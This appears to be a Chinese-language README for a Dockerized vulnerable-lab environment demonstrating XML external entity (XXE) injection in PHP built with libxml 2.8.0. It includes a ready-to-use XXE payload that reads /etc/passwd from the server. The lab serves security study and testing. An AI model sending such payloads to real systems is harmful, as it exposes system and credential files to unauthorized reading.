

# PHP环境 XML外部实体注入漏洞（XXE）

环境介绍：

- PHP 7.0.30
- libxml 2.8.0

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

使用如下命令编译并启动环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到phpinfo，搜索libxml即可看到其版本为2.8.0。

Web目录为`./www`，其中包含4个文件：

```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```

`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。

Simple XXE Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

输出：



更多高级利用方法，请自行探索。
